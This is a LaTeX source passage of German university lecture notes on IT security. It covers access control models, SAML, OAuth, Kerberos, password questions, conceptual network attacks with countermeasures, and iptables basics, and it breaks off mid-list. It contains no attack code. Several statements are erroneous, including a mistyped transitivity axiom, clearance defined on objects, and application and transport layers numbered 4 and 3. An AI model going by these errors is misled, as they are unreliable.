            	\node [draw, rounded corners, minimum width = 2cm, below = 0.5 of center] (refmonit) {Referenz- \\ Monitor};
            	\coordinate [above left = 0.5 of system] (a);
            	\coordinate [below right = 0.5 of refmonit] (b);
            	
            	\draw (a) -| coordinate(e) (b) -| coordinate(c) cycle;
            	\path (e) -- coordinate(f) (b);
            	\path (a) -- coordinate(d) (c);
            	
            	\ciscoClient{subject}{left = 2 of d}{Subjekt};
            	\ciscoServer{object}{right = 2 of f}{Objekt};
            	
            	\draw [->] (subject) -- (d);
            	\draw [->] (f) -- (object);
        	\end{tikzpicture}
        	\caption{Autorisierung}
        \end{figure}

        \subsection{Access Control List (ACL)}
            In sogenannten \textit{Access Control Lists} (ACLs) wird pro Objekt eine Tabelle angelegt, in der pro Nutzer steht, welche Zugriffsrechte er hat:
            \begin{table}[H]
            	\centering
            	\begin{tabular}{| l | l | l |}
            		\hline
            		\textbf{User ID} & \textbf{Zugriffsmodus} & \textbf{allow/deny} \\ \hline
            		Alice            & Lesen                  & Allow               \\
            		Alice            & Schreiben              & Deny                \\
            		Alice            & Ausführen              & Deny                \\
            		Bob              & Lesen                  & Allow               \\
            		\dots            & \dots                  & \dots               \\ \hline
            	\end{tabular}
            	\caption{Access Control List}
            \end{table}
            Bei einem Zugriff auf ein Objekt wird in der ACL des entsprechenden Objektes geschaut, ob das Subjekt den Zugriff ausführen darf.
        % end

        \subsection{Modelle für Zugriffskontrollen}
            \begin{itemize}
            	\item Festsetzung der Zugriffsrechte:
                	\begin{itemize}
	                	\item \textit{Discretionary Access Control (DAC)}    \tabto{4cm} Der Eigentümer eines Objektes legt die Zugriffsrechte fest.
	                	\item \textit{Mandatory Access Control (MAC)}        \tabto{4cm} Eine Autorität (bspw. der Staat) legt die Zugriffsrechte fest.
	                \end{itemize}
                \item Granularität der Zugriffsrechte:
	                \begin{itemize}
	                	\item \textit{Role-Based Access Control (RBAC)}      \tabto{4cm} Die Zugriffsrechte werden durch Rollen festgelegt (i.d.R. MAC).
	                	\item \textit{Attribute-Bases Access Control (ABAC)} \tabto{4cm} Feine Zugriffsrechte gemäß logischer Formeln (i.d.R. mit RBAC).
	                \end{itemize}
            \end{itemize}
        % end

            \subsubsection{Bell-LaPadula (BLP)}
                \begin{itemize}
                	\item Wurde in den 70ern für die US Air Force entwickelt.
                	\item Einfache Mechanismen mit formalen Sicherheitsmodell.
                	\item Ziel: Vertraulichkeit
                	\item Die Zugriffsrechte werden in einer \textit{Access Control Matrix} (ACM) abgelegt:
                    	\begin{table}[H]
                    		\centering
                    		\begin{tabular}{| c | c | c | c |}
                    			\hline
                    			                   & \textbf{Objekt 1} & \textbf{Objekt 2} & \textbf{\dots} \\ \hline
                    			\textbf{Subjekt 1} & read, write       & read              & \dots          \\ \hline
                    			\textbf{Subjekt 2} & read              & -                 & \dots          \\ \hline
                    			\textbf{Subjekt 3} & read, write       & read, write       & \dots          \\ \hline
                    			\textbf{\dots}     & \dots             & \dots             & \dots          \\ \hline
                    		\end{tabular}
                    		\caption{Access Control Matrix}
                    	\end{table}
                \end{itemize}
            
                \paragraph{Vorgehen}
	                Jedes Objekt \(o\) wird Klassifiziert und jedes Subjekt \(s\) erhält eine Freigabe:
	                \begin{align*}
	                	\text{classification}(o) & \in\, \textit{Markierung} \\
	                	\text{clearance}(o)      & \in\, \textit{Markierung}
	                \end{align*}
	                Diese Menge der Sicherheitsmarkierungen \(\textit{Markierung}\) bildet eine partielle Ordnung \(\leq\):
	                \begin{align*}
	                	\forall x \in \textit{Markierung}       & :\, x \leq x                                  \\
	                	\forall x, y \in \textit{Markierung}    & :\, x \leq y \land y \leq x \implies x = y    \\
	                	\forall x, y, z \in \textit{Markierung} & :\, x \leq y \land y \leq z \implies y \leq z
	                \end{align*}
	                
	                Für die Vertraulichkeit müssen folgende Regeln gelten:
	                \begin{itemize}
	                	\item Subjekt \(s\) kann Objekt \(o\) lesen     \tabto{6cm} \( \implies \text{classification}(o) \leq \text{clearance}(s) \) (no read-up) \\ Es darf niedriger eingestuften Personen nicht möglich sein, höher eingestufte Informationen zu lesen.
	                	\item Subjekt \(s\) kann Objekt \(o\) schreiben \tabto{6cm} \( \implies \text{clearance}(s) \leq \text{classification}(o) \) (no write-down) \\ Verhindert, dass höher eingestufte Personen versehentlich Informationen an niedriger eingestufte Personen weitergeben.
	                	\item Subjekt \(s\) kann Objekt \(o\) erzeugen  \tabto{6cm} \( \implies \text{clearance}(s) \leq \text{classification}(o) \) (no-create-down)
	                \end{itemize}
                % end
                
                \paragraph{Grenzen des BLP-Modells}
		            \begin{itemize}
		            	\item Kein Integritätsschutz, write-up ist grundsätzlich erlaubt. \\ Dieses weite-up ohne lesen zu können wird \textit{blindes Schreiben} genannt.
		            	\item Keine Änderung von Zugriffsrechten möglich.
		            	\item \textbf{Erweiterungen:}
			            	\begin{itemize}
				            	\item (weak/strong) tranquility bzgl. Änderungen in der Matrix \(M\)
			            		\item Biba-Modell: kein write-up, kein read-down
			            	\end{itemize}
		            \end{itemize}
                % end
            % end
        % end
    % end

    \section{Federated Identity Management}
        Bei dem \textit{Federated Identity Management} (FIdM) wird die eigentliche Authentisierung/Autorisierung des Nutzers nicht durch den \textit{Service Provider} (SP) durchgeführt, sondern an einen \textit{Identity Provider} (IdP) weitergereicht:
        \begin{figure}[H]
        	\centering
        	\begin{tikzpicture}[align = center]
            	\ciscoClient{user}{}{below:{User}};
            	\ciscoServer{sp}{right = 6 of user}{below:{Service Provider (SP)}};
            	\path (user) -- coordinate(center) (sp);
            	\ciscoIdP{idp}{above = 4 of center}{above:{Identity Provider (IdP)}};
            	
            	\draw [<->] (user) -- (idp);
            	\draw [<->] (idp) -- (sp);
            	\draw [<->] (user) -- (sp);
            	
            	\node [above = 0 of user.north east, anchor = south east] {\circled{4} Legitimierung senden};
            	\node [left = 0 of idp.south west] {\circled{3} Authentisierung anfragen};
            	\node [above = 0 of user.east, anchor = south west] {\circled{1} Zugriff anfragen};
            	\node [below = 0 of sp.west, anchor = north east] {\circled{6} Zugriffsantwort};
            	\node [above = 0 of sp.north west, anchor = south west] {\circled{2} Authentisierung/ \\ Autorisierung anfragen};
            	\node [right = 0 of idp.south east] {\circled{5} Authentisierung/ \\ Autorisierung senden};
        	\end{tikzpicture}
        	\caption{FIdM: Grundprinzip}
        \end{figure}
        Wichtig hierbei ist eine Standardisierung zur Interoperabilität (SAML, OAuth 2.0, \dots).

        \subsection{Security Assertion Markup Language (SAML)}
            \begin{itemize}
            	\item XML-basierte Sprache zum Austausch von Authentisierungs-/Autorisierungsinformationen
            	\item Meistens direkt über den Webbrowser/HTTP(S).
            \end{itemize}
        
            \paragraph{Beispielhaftes SAML-\enquote{Token}}
            \begin{figure}[H]
            	\centering
            	\begin{verbatim}
<saml:Assertion ...>
	<saml:Issuer>
	<ds:Signature>
	<saml:Subject>
	<saml:Conditions>
	<saml:Advice>
	<saml:AuthnStatement>
	<saml:AuthzDecisionStatement>
	<saml:AttributeStatement>
</saml:Assertion>
\end{verbatim}
            	\caption{SAML-\enquote{Token}}
            \end{figure}
            Die \textit{SAML-Assertion} enthält dabei Informationen über:
            \begin{itemize}
            	\item Authentisierung,
            	\item Attribute des Nutzer oder
            	\item Autorisierung
            \end{itemize}
        
            \subsubsection{Angriff}
	            \begin{itemize}
	            	\item Nicht mehr existent, war auf schlechte Verarbeitungen der Assertions zurückzuführen.
	            	\item Wurde vor der Veröffentlichung behoben.
	            	\item Fehler: Die Signatur wurde nur für die dazugehörige Assertion geprüft.
	            	\item Dadurch war es einem Angreifer möglich, eine zweite, unsignierte, Assertion einzufügen.
	            	\item Somit wurden die Aassertions weiter verarbeitet und der Angreifer erhielt Zugriff.
	            \end{itemize}
            % end
        % end

        \subsection{OAuth 2.0}
            \begin{itemize}
            	\item OAuth 2.0 ist eigentlich nur ein Autorisierungsprotokoll, es kann i.d.R. aber auch die Authentisierung darüber laufen.
            	\item Im Gegensatz zu SAML gibt es keine Signaturen, sondern nur die Absicherung der einzelnen Kommunikationswege mit TLS.
            \end{itemize}

			\begin{figure}[H]
				\centering
				\begin{tikzpicture}[align = center]
					\ciscoClient{client}{}{below:{Client}};
					\node [scale = 2.5, yshift = 0.4pt, left = 2 of client, label = below:{User}, alice] (user) {};
					\ciscoServer{sp}{right = 6 of client}{below:{Service Provider (SP)}};
					\path (client) -- coordinate(center) (sp);
					\ciscoIdP{idp}{above = 4 of center}{above:{Identity Provider (IdP)}};
					
					\draw [<->] (client) -- (idp);
					\draw [<->] (idp) -- (sp);
					\draw [<->] (client) -- (sp);
					\draw [<->] (client) -- (user);
					
					\node [above = 0 of client.north east, anchor = south east] {\circled{3} Token mit \\ Autorisierungs- \\ code anfragen};
					\node [left = 0 of idp.south west] {\circled{4} Token ausstellen};
					\node [above = 0 of client.east, anchor = south west] {\circled{5} Zugriff mit Token anfragen};
					\node [below = 0 of sp.west, anchor = north east] {\circled{6} Zugriffsantwort};
					\node [below = 0.5 of client.south] {\circled{1} Zugriff anfragen};
					\node [below = 1.3 of user.south] {\circled{2} Autentisierungscode senden};
				\end{tikzpicture}
				\caption{OAuth 2.0}
			\end{figure}
        % end

        \subsection{Single-Sign-On (SSO)}
            Bei einem Signle-Sign-On bleibt die Authentisierung bestehen, z.B. mit einem Cookie im Webbrowser des Users.
			\begin{figure}[H]
				\centering
				\begin{tikzpicture}[align = center]
					\ciscoClient{user}{}{below:{User}};
					\ciscoServer{sp}{right = 6 of user}{below:{Service Provider (SP)}};
					\path (user) -- coordinate(center) (sp);
					\ciscoIdP{idp}{above = 4 of center}{above:{Identity Provider (IdP)}};
					
					\draw [<->] (user) -- (idp);
					\draw [<->] (idp) -- (sp);
					\draw [<->] (user) -- (sp);
					
					\node [above = 0 of user.north east, anchor = south east] {\circled{4} Legitimierung senden};
					\node [left = 0 of idp.south west] {\circled{3} Authentisierung anfragen};
					\node [above = 0 of user.east, anchor = south west] {\circled{1} Zugriff anfragen};
					\node [below = 0 of sp.west, anchor = north east] {\circled{6} Zugriffsantwort};
					\node [above = 0 of sp.north west, anchor = south west] {\circled{2} Authentisierung anfragen};
					\node [right = 0 of idp.south east] {\circled{5} Authentisierung senden};
				\end{tikzpicture}
				\caption{Single-Sign-On}
			\end{figure}
        % end

        \subsection{Kerberos}
            \begin{itemize}
            	\item \textit{Kerberos} (benannt nach dem griechischen \enquote{Bewacher der Unterwelt}) ist ein einfaches SSO-Protokoll.
            	\item Die letzte Version 5 wurde 2005 herausgebracht, das Gesamtsystem wurde Ende 1980 vom MIT entwickelt.
            	\item Das System basiert auf symmetrischer Verschlüsselung.
            	\item Sehr weit verbreitet.
            \end{itemize}

            \paragraph{Abkürzungen}
	            \begin{description}
	            	\item[AS] Authentication Server
	            	\item[KDC] Key Distribution Center
	            	\item[SP-Key] Session Partner Key
	            	\item[SP] Session Partner
	            	\item[SPK] SP-Key
	            	\item[ST] Service Ticket
	            	\item[TGS-Key] Ticket Granting Session Key
	            	\item[TGS] Ticket GRanting Server
	            	\item[TGSK] TGS-Key
	            	\item[TGT] Ticket Granting Ticket
	            \end{description}
            % end

            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}[align = center, entity/.style = { minimum width = 1.5cm, minimum height = 1.5cm }]
	            	\ciscoIdP{as}{entity}{above:{Authentication \\ Server (AS)}};
	            	\ciscoIdP{tgs}{entity, right = 10 of as}{above:{Ticket Granting \\ Server (TGS)}};
	            	\path (as) -- coordinate(needle) (tgs);
	            	\ciscoClient{client}{entity, below = 6 of needle}{below:{Client}};
	            	\ciscoServer{sp}{entity, below = 6 of client}{below:{Session Partner (SP)}};

	            	\draw [->] (client) to[bend left] node[left, yshift = -5pt, xshift = -5pt](a){\circled{1}} (as);
	            	\node [above left = 1.5 of as, yshift = -0.5cm] (b) {\circled{2}};
	            	\draw [->] (client) to[bend left = 90] node[left, yshift = -5pt, xshift = -5pt](c){\circled{3}} (as);
	            	\node [below = 0 of b] (d) {\circled{4}};
	            	\draw [->] (as) to[bend left] node[right, yshift = 5pt, xshift = 5pt](e){\circled{5}} (client);
	            	\node [below right = 0 of client] (f) {\circled{6}};
	            	\draw [->] (client) to[bend left] node[left, yshift = 5pt, xshift = -5pt](g){\circled{7}} (tgs);
	            	\node [above right = 1.5 of tgs] (h) {\circled{8}};
	            	\node [below = 0 of h] (i) {\circled{9}};
	            	\node [below = 0 of i] (j) {\circled{10}};
	            	\draw [->] (tgs) to[bend left] node[right, xshift = 5pt, yshift = -5pt](k){\circled{11}} (client);
	            	\node [below = 0 of f] (l) {\circled{12}};
	            	\draw [->] (client) to node[left](m){\circled{13}} (sp);
            	\end{tikzpicture}
            	\caption{Kerberos (vereinfacht)}
            \end{figure}
            \begin{enumerate}
            	\item Login: Sende Client-ID und Passwort an den AS. \\ Berechne \( \textit{Client-Key} = H(\textit{Salt},\, \textit{Passwort}) \).
            	\item Überprüfe, dass der Client in der Datenbank ist. \\ Berechne \( \textit{Client-Key} = H(\textit{Salt},\, \textit{Passwort}) \) (unabhängig von der Berechnung des Clients)
            	\item Sende das Ticket an den Server.
            	\item Wähle den zufälligen Sitzungsschlüssel \textit{TGSK}.
            	\item Sende den Sitzungsschlüssel verschlüsselt an den Client, wobei einmal das Ticket mit dem TGS-Key verschlüsselt wird, sodass dieses nur vom TGS entschlüsselt werden kann:
	            	\begin{align*}
	            		\textit{TGT}_\textrm{TGS}     & =\, \Enc(\textit{TGS-Key},\, \textrm{Ticket}+\textit{TGSK}) \\
	            		\textit{TGSK}_\textrm{Client} & =\, \Enc(\textit{Client-Key},\, \textit{TGSK})
	            	\end{align*}
	            \item Entschlüssle den Sitzungsschlüssel und speichere \( \textit{TGT}_\textrm{TGS} \) \\ Entschlüssle \( \textit{TGSK} = \Dec(\textit{Client-Key},\, \textit{TGSK}_\textrm{Client}) \)
	            \item Verschlüssle das Ticket mit dem Sitzungsschlüssel und sende dies an den TGS:
		            \begin{align*}
		            	\textit{TGT}^*_\textrm{TGSK} & =\, \Enc(\textit{TGSK},\, \textrm{Ticket}) \\
		            	\textit{TGT}_\textrm{TGS}    &
		            \end{align*}
		        \item Entschlüssele das Ticket und den Sitzungsschlüssel:
			        \begin{equation*}
				        \textrm{Ticket}+\textit{TGSK} = \Dec(\textit{TGS-Key},\, \textit{TGT}_\textrm{TGS})
			        \end{equation*}
			    \item Vergleiche das Ticket und \( \textrm{Ticket}^* = \Dec(\textit{TGSK},\, \textit{TGT}^*_\textrm{TGSK}) \)
			    \item Wähle einen Sitzungsschlüssel \textit{SPK}.
			    \item Sende den neuen Sitzungsschlüssel und das Ticket zurück an den Client:
				    \begin{align*}
				    	\textit{ST}_\textrm{SP}      & =\, \Enc(\textit{SP-Key},\, \textrm{Ticket}+\textit{SPK}) \\
				    	\textit{SPK}_\textrm{Client} & =\, \Enc(\textit{Client-Key},\, \textit{SPK})
				    \end{align*}
				\item Entschlüssle den Sitzungsschlüssel und speichere \( \textit{ST}_\textrm{SP} \) \\ Entschlüssle \( \textit{SPK} = \Dec(\textit{Client-Key},\, \textit{SPK}_\textrm{Client}) \)
				\item Verschlüssle das Ticket erneut und sende mit dem vom TGS verschlüsselten Ticket an den SP:
					\begin{align*}
						\textit{ST}^*_\textrm{SPK} & =\, \Enc(\textit{SPK},\, \textrm{Ticket}) \\
						\textit{ST}_\textrm{SP}    &
					\end{align*}
					Verfahre nun Analog zu den Schritten 8 bis 11.
            \end{enumerate}
        % end
    % end

    \section{Fragen} % 4
		\paragraph{Beschreiben Sie den Unterschied zwischen der One-Way-Eigenschaft und der Kollisionsresistenz einer Hashfunktion.}
		Die Kollisionsresistenz besagt, dass Nachrichten \( m \neq m' \) mit \( H(m) = H(m') \) sehr schwierig zu finden sind. Dagegen besagt die One-Way-Eigenschaft, dass die Berechnung von \( H(m) \) einfach, die Berechnung von \(m\) aus \(H(m)\) jedoch unmöglich ist.
		
		\paragraph{Warum verwendet man nicht ein Public-Key-Verschlüsselungssystem zum Hashen, \(H(p) \coloneqq \Enc(k_p,\, p) \), und \enquote{wirft} den geheimen Schlüssel \(k_s\) weg?}
		\begin{enumerate}
			\item Public-Key-Systeme haben eine begrenze Eingabelänge, wodurch die Länge des Passwortes begrenzt wäre.
			\item Es ergibt sich kein Vorteil gegenüber Hashwerten, stattdessen muss jedoch noch ein öffentlicher Schlüssel gespeichert werden.
		\end{enumerate}
		
		\paragraph{Warum ist iteriertes Passwort-Hashing \(h_{j+1} = H(p, S, h_j) \) besser als folgende Lösung: \( H(p, S) = H(p, S, 1) \oplus H(p, S, 2) \oplus \cdots \oplus H(p, S, n) \) }
		Das iterierte Hashing erhöht den Rechenaufwand immens, kann aber nur seriell ausgeführt werden, da das Ergebnis der vorherigen Iteration in die nächste mit eingehen muss. Bei der vorgestellten Variante könnten alle Hashwerte parallel berechnet werden, was einen Angriff extrem beschleunigt.
		
		\paragraph{Ist \enquote{texttt{\#gfFhH5/Un1.gg\&}} ein gutes Passwort?}
		Mit 15 Zeichen das das Passwort eine gute Entropie von ca. 60 Bits, jedoch enthält das Passwort das Wort \enquote{Uni} (mit einer 1 statt dem i). Das Passwort ist insgesamt also nicht schlecht, es geht aber besser. Dieses konkrete Passwort sollte jedoch nicht verwendet werden, da es im Foliensatz und in dieser Zusammenfassung steht.
		
		\paragraph{Was halten Sie von folgender Vorgehensweise, um Passwörter zu erzeugen: \texttt{date| md5sum} Wie viel Entropie erwarten Sie?}
		Die ausgegebenen Passwörter sehen auf den ersten Blick sehr Entropiehaltig aus, allerdings kann ein Angreifer leicht alle möglichen Passwörter erstellen, wenn er den Zeitraum kennt, in dem das Passwort erstellt wurde. Da \texttt{date} das Datum auf die Sekunde genau ausgibt kann über ein Jahr gesehen mit einer Entropie von ca. 25 Bits gerechnet werden. Dies ist sehr wenig.
		
		\paragraph{Welche 2-Faktor-Authentisierungsmethoden kennen Sie noch?}
		\begin{itemize}
			\item Passwort und SMS-Code
			\item Passwort und OATH-Code
			\item Fingerabdruck und Passwort
			\item \dots
		\end{itemize}
		
		\paragraph{Beschreiben Sie Challenge-Response mit Private-Key-Verschlüsselung.}
		Token und Server teilen sich einen privaten Schlüssel. Der Server generiert als Challenge eine Nachricht \(m\), berechnet den Cipher und sendet diesen an das Token. Das Token entschlüsselt dies und sendet die entschlüsselte Nachricht an den Server. Ist diese Nachricht korrekt, so wird das Token akzeptiert. Ein Angreifer kann mitgeschnittene Pakete nicht nutzen, da er eine neue Challenge erhält und die abgefangene Nachricht nicht zu dieser passt.
		
		\paragraph{Was ist bei folgendem 1-Runden Challenge-Response-Verfahren problematisch? Alice wählt sich ein zufälliges \(r\) selbst und sendet \(s = \Sig(k_s, r)\).}
		Der Server stellt in diesem Verfahren keine Challenge, sondern kann nur prüfen, ob die Signatur von Alice ausgestellt wurde. Dadurch kann ein Angreifer die Pakete abgreifen und erneut senden (Replay-Attacke).
    % end
% end

\chapter{Netzwerksicherheit}
    \label{c:networksecurity}

    \section{MAC-Spoofing}
        \begin{itemize}
        	\item MAC-Adressen können einfach geändert werden.
        	\item Damit sind sie z.B. in Heimnetzen keine verlässliche Basis für Zugriffskontrollen.
        	\item Randomisierte MACs erleichtern das anonyme Surfen.
        \end{itemize}
    % end

    \section{ARP Spoofing}
        \begin{itemize}
        	\item Ein Angreifer antwortet fälschlicherweise auf einen ARP-Request, der nicht für ihn bestimmt war.
        	\item Dadurch landen die Pakete für die abgefragte IP-Adresse nun bei der MAC-Adresse des Angreifers.
        	\item Hierdurch kann bspw. der gesamte Traffic zum Router umgeleitet werden und so alles mitgelesen werden.
        \end{itemize}
    
        \paragraph{Gegenmaßnahmen}
	        \begin{itemize}
	        	\item Statische Tabellen anlegen.
	        	\item Prüfen, ob IP-Adressen im Netzwerk eindeutig ist.
	        \end{itemize}
        % end
    % end

    \section{Rogue DHCP}
        \begin{itemize}
        	\item Ein Angreifer antwortet fälschlicherweise auf ein DHCP-Discover-Request.
        	\item Hierdurch kann der Angreifer Standardgateway, IP-Adresse, \dots bestimmen.
        	\item Nun kann der Angreifer sämtlichen Traffic mitlesen.
        \end{itemize}
    
        \paragraph{Gegenmaßnahme}
	        \begin{itemize}
	        	\item DHCP Snooping, das nur vertrauenswürdige DHCP-Server im Netzwerk akzeptiert-
	        \end{itemize}
        % end
    % end

    \section{DNS Spoofing (und Cache Poisoning)}
        \begin{itemize}
        	\item Ein kompromittierter DNS-Server antwortet mit falschen Daten (\textit{DNS Spoofing}).
        	\item Diese werden falsch im Cache gespeichert (\textit{Cache Poisoning}).
        \end{itemize}

        \paragraph{Gegenmaßnahmen}
            \begin{itemize}
            	\item DNSSec: Antworten werden signiert.
            	\item DNS over TLS (DoT): Die Teilnehmer bauen sichere Verbindungen auf.
            	\item DNS over HTTPS (DoH): Die Teilnehmer bauen sichere HTTP-Verbindungen auf.
            \end{itemize}
        % end
    % end

    \section{Port Scan (Nmap)}
        \begin{itemize}
        	\item Mit Tools wie z.B. Nmap können Systeme nach offenen Ports gescannt werden.
        	\item Hierdurch kann u.a. herausgefunden werden, welches Betriebssystem genutzt wird.
        \end{itemize}
    % end

    \section{(Distributed) Denial-of-Service-Angriffe (DoS/DDoS)}
        \begin{itemize}
        	\item Bei einem \textit{(Distributed) Denial-of-Service-Angriff} ((D)DoS-Angriff) wird versucht, Server (oder auch Provider) zu überlasten, sodass keine normale Kommunikation mehr möglich ist.
        	\item Bei einem normale DoS-Angriff geht der Angriff dabei von einem oder mehreren \enquote{ehrlichen} Rechnern aus.
        	\item Bei einem \textit{Distributed} Denial-of-Service-Angriff (DDoS-Angriff) greifen viele infizierte Rechner an (Botnetz o.ä.).
        \end{itemize}

        \subsection{Ping of Death (PoD)}
            \begin{itemize}
            	\item Bei einem \textit{Ping of Death} (PoD) werden absichtlich falsch konfigurierte ICMP-Nachrichten versendet.
            	\item Hierdurch können fehlerhafte Systeme abstürzen.
            \end{itemize}
        % end

        \subsection{Smurf Attack}
            \begin{itemize}
            	\item Bei einer \textit{Smurf Attacke} sendet der Angreifer ein ICMP-Ping-Broadcast an alle Geräte im lokalen Netzwerk und ändert dabei die Quelladresse auf die Adresse des Ziels.
            	\item Antworten nun alle Rechner auf einmal, so ist das Angriffsziel überlastet.
            \end{itemize}
        
	        \paragraph{Gegenmaßnahme}
		        \begin{itemize}
		        	\item Keine Ping-Broadcasts im lokalen Netzwerk erlauben.
		        \end{itemize}
	        % end
        % end

        \subsection{SYN Flood}
            \begin{itemize}
            	\item Der Angreifer sendet viele \texttt{SYN}-Anfragen, ohne \texttt{SYN-ACK} mit \texttt{ACK} zu beantworten. Dies geschieht typischerweise aus einem Botnetz.
            	\item Aufgrund der vielen offenen TCP-Verbindungen kann der Server keine weiteren Verbindungen mehr öffnen.
            \end{itemize}
        
	        \paragraph{Gegenmaßnahmen}
		        \begin{itemize}
		        	\item \texttt{SYN}-Cookies, die in Antwortsequenznummern die Verbindung kodieren.
		        	\item \texttt{SYN}-Anfrage erst löschen und später die \texttt{SYN}-Anfrage wieder aus der \texttt{ACK}-Anfrage rekonstruieren.
		        \end{itemize}
	        % end
        % end

        \subsection{SYN-ACK Flood}
            \begin{itemize}
            	\item Ähnlich wie bei der Smurf Attack sendet der Angreifer viele \texttt{SYN}-Anfragen an die Clients mit gefälschter Quelladresse, sodass die \texttt{SYN-ACK}-Anfragen an das Ziel gesendet werden.
            	\item Das Ziel beantwortet alle Anfragen mit \texttt{RST} und ist überlastet.
            \end{itemize}
        
	        \paragraph{Gegenmaßnahme}
		        \begin{itemize}
		        	\item Bei Überlastung \texttt{SYN-ACK}-Pakete durch die Firewall filtern.
		        \end{itemize}
	        % end
        % end
    % end

    \section{Firewalls}
        \textit{Firewalls} sollen interne Netzwerke zwischen Servern, vertrauenswürdigen Clients, etc. vor unberechtigten Zugriffen schützen, in dem sie direkt in die Netzwerkprotokolle eingreifen und bspw. bestimmte Ports blockieren können.
        
        Oftmals findet sich folgendes zweistufiges Firewall-Konzept wieder:
        \begin{figure}[H]
        	\centering
            \begin{tikzpicture}[align = center]
	            \ciscoClient{clientA}{}{};
	            \ciscoClient{clientB}{below = 1 of clientA}{};
	            \ciscoClient{clientC}{below = 1 of clientB, label = below:Intranet}{};
	            \coordinate [right = 2 of clientB] (needleClient);
	            \ciscoFirewall{firewallA}{right = 2 of needleClient}{};
	            \coordinate [right = 1 of firewallA] (needleFirewall);
	            \ciscoFirewall{firewallB}{right = 1 of needleFirewall}{};
	            \coordinate [below = 2 of needleFirewall] (needleServer);
	            \ciscoServer{serverA}{below left = 1 of needleServer}{};
	            \ciscoServer{serverB}{below right = 1 of needleServer}{};
	            \ciscoInternet{internet}{right = 2 of firewallB}{Internet};
	            \path (serverA.south) -- node[below](serverLabel){Server \\ (Web-Server, E-Mail-Server, \dots)} (serverB.south);

	            \path let \p1 = (needleServer), \p2 = (serverLabel.south west) in coordinate (a) at (\x2, \y1 + 10);
	            \path let \p2 = (serverLabel.south east) in coordinate (b) at (\x2, \y2);
	            \draw (a) -| (b) -| coordinate(c) cycle;
	            \path (c) -- node[below]{Demilitarisierte Zone (DMZ)} (b);
	            
	            \draw (clientA) -| (needleClient);
	            \draw (clientB) -- (needleClient);
	            \draw (clientC) -| (needleClient);
	            \draw (needleClient) -- (firewallA);
	            \draw (firewallA) -- (firewallB);
	            \draw (needleFirewall) -- (needleServer);
	            \draw (needleServer) -| (serverA);
	            \draw (needleServer) -| (serverB);
	            \draw (firewallB) -- (internet);
            \end{tikzpicture}
        	\caption{Zweistufiges Firewall-Konzept}
        \end{figure}
    
        \subsection{Firewalls im Schichtenmodell}
	        Firewalls können im Schichtenmodell auf den Ebenen 4 (Application Layer) und 3 (Transport Layer) auftreten:
	        \begin{description}
	        	\item[Application Layer] Deutlich komplexer, können dafür auf Anwendungen (HTTP, JavaScript, \dots) basierenden Angriffen schützen. Diese Firewall arbeitet dabei als Proxy zwischen Client und Server und prüft den Inhalt der Verbindungen.
	        	\item[Transport Layer] Zustandslos oder Zustandsbasiert, können vor Angriffen basierend auf UDP/TCP/ICMP/\dots schützen.
	        \end{description}
        % end
    
        \subsection{Zustandslose vs. zustandsbasierte Firewalls}
	        \begin{itemize}
	        	\item Zustansbasierte Firewalls können erkennen, ob ein Paket zu einer vorher aufgebauten Verbindung gehört.
	        	\item Damit sind deutlich feingranulare Regeln möglich.
	        	\item Zustandslose Firewalls müssten die Pakete i.d.R. passieren lassen, damit Kommunikation nach außen möglich ist.
	        \end{itemize}
        % end
        
	    \subsection{\texttt{iptables}}
		    \texttt{iptables} ist eine Linux-basierte Firewall (\enquote{Paketfilter}), die zu gleich mächtig als auch komplex ist.
		    
		    \paragraph{Aufrufe}
			    \begin{itemize}
			    	\item \texttt{iptables -P <CHAIN> <POLICY>} \\ Setzt die Default-Policy für die angegebene Chain.
			    	\item \texttt{iptables -A <CHAIN> <RULE> -j <POLICY>} \\ Hängt eine Regel an das Ende der angegebene Chain an mit der gegebenen Policy.
			    	\item \texttt{iptables -I <CHAIN> <RULE> -j <POLICY>} \\ Erstellt eine Regel am Anfang der angegebenen Chain mit der gegebenen Policy.
			    	\item \texttt{iptables -F <CHAIN>} \\ Löscht alle Regeln aus der angegebenen Chain, setzt aber nicht die Default-Policy!
			    \end{itemize}
		    
			    Es existieren die folgenden \textit{Chains}:
			    \begin{description}
			    	\item[INPUT]   Die INPUT Chain enthält alle Regeln, welche den eingehenden Netzwerkverkehr steuern. Hierdurch kann bspw. der Zugriff von außen auf bestimmte Ports verhindert werden.
			    	\item[FORWARD] Die FORWARD Chain enthält Regeln, welche den Routing-Netzwerkverkehr, bzw. IP-Forwarding, zwischen den Netzwerk-Devices steuern. Hierdurch kann bspw. das Weiterleiten von Paketen an bestimmte Devices verhindert werdem.
			    	\item[OUTPUT]  Die OUTPUT Chain enthält Regeln, welche den ausgehenden Netzwerkverkehr steuern. Hierdurch kann bspw. der Zugriff nach außen auf bestimmte Ports verhindert werden.
			    \end{description}
			    
			    Und die folgenden \textit{Policies} (oder \textit{Targets}):
			    \begin{description}
			    	\item[ACCEPT] Das betroffene Paket wird regulär weiter verarbeitet (es wird akzeptiert).
			    	\item[DROP]   Das betroffene Paket wird fallen gelassen, d.h. es wird nicht weiter darauf reagiert.
			    	\item[REJECT] Das betroffene Paket wird aktiv zurückgewiesen.
			    \end{description}
		    
			    Um zu Prüfen, wie mit einem Paket umgegangen werden soll, werden die Regeln der entsprechenden Chain von oben nach unten ausgewertet. Wird eine passende Regel gefunden, so wird die Policy dieser verwendet. Dabei ist nur die erste passende Regel relevant, alle anderen Regeln werden ignoriert. Wurde keine Regel gefunden, wird die Default-Policy der Chain angewendet.
		    % end
		    
		    \paragraph{Regeln}
			    \begin{itemize}
			    	\item \texttt{-p <PROTOCOL>} \\ Schränkt das betroffene Protokoll ein. Je nach Protokoll sind unterschiedliche Optionen verfügbar:
				    	\begin{itemize}
				    		\item \texttt{icmp} \\ Schränkt das die betroffenen Pakete auf ICMP-Pakete ein.
					    		\begin{itemize}
					    			\item \texttt{-{}-icmp-type <TYPE>} \\ Schränkt die betroffenen ICMP-Requests ein. Um eingehende Pings zu erlauben muss bspw. der ICMP-Typ \texttt{echo-request} freigeschaltet werden.
					    		\end{itemize}
				    		\item \texttt{tcp} / \texttt{udp} \\ Schränkt die betroffenen Pakete auf TCP- oder UDP-Pakete ein.
					    		\begin{itemize}
					    			\item \texttt{-{}-dport <PORT>} \\ Schränkt den Zielport ein. Bei eingehenden Regeln (INPUT) ist dies ein Port auf dem lokalen Linux, bei ausgehenden Regeln (OUTPUT) ist dies der verwendete Port des Clients. Für Weiterleitungsregeln (FORWARD) ist dies der Zielport des Clients.
